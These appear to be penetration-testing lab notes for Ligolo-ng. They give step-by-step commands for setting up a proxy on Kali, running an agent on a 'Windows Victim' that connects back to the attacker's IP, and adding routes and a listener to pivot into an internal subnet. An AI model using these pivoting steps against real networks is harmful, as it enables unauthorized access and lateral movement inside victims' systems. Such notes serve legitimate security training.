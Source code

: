 - Proxy - Server
- Agent -> Client

```
sudo ip tuntap add user root mode tun ligolo
```

```
sudo ip link set ligolo up
```

Kali:
```
./proxy-lin -selfcert
```

Windows Victim:
```
.\ligolo-agent.exe -connect 192.168.45.158:11601 -ignore-cert
```

In Ligolo:
```
session
```
Choose session
Then:
```
ifconfig
```

In Kali Terminal
```
sudo ip route add 10.10.113.0/24 dev ligolo
```

Check it:
```
ip route list
```

Let's go back; execute `session`, choose `session`; Then:
```
start
```

# Listener
```
listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80 --tcp
```
